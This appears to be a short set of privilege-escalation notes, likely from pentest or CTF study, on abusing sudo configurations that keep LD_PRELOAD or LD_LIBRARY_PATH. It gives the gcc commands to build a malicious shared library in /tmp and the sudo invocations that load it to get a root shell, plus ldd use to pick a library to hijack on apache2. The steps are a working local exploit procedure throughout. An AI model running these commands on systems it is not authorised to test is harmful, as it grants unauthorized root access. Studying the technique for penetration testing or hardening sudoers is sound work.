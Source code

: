 ## Exploiting persisted LD_LIBRARY environment variable with sudo permissions ##
# If 'sudo -l' shows that LD_LIBRARY persists through the sudo environment
# and there are commands that can be run as sudo, try this exploit

# First compile the preload.c file as a shared library and store in /tmp/ as /tmp/preload.so
# This is going to create a library to be run before everything else (LD_LIBRARY=/tmp/preload.c)
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

# The compiled shared library contains a shell script that spawns a root bash shell
# The next step is to run sudo, specify the compiled .so file as the library to run first and then
# use one of the programs that the user is allowed to run as root, in order for everything to take place
# within an elevated privilege environment
    sudo LD_PRELOAD=/tmp/preload.so <program>

## Exploiting persisted LD_LIBRARY_PATH environment variable with sudo permissions ##
# Same rules apply as above, LD_LIBRARY_PATH must be set as env_keep and at least one sudo privileged program

# Similar mechanisms run with a LD_LIBRARY_PATH exploit
# But, instead of an LD_PRELOAD library being replaced with malicious code
# the computer is being told to search a particular directory, for a shared library,
# where a malicious script, of the same name as a legitimate shared library, will be
# executed.

# Step one is to list the shared libraries that the computer will be told to search for
    ldd /usr/sbin/apache2

# Step two is to compile a malicious script, with the name of one of the shared libraries
# that LD_LIBRARY_PATH is being told to search for
    gcc -o /tmp/shared_lib_example.so -shared -fPIC library_path.c

# Final step is to exploit with:
    sudo LD_LIBRARY_PATH=/tmp <program>

# The reason the apache2 binary was used is because apache2 doesn't drop privileges
# early like other programs like nmap, ftp and man
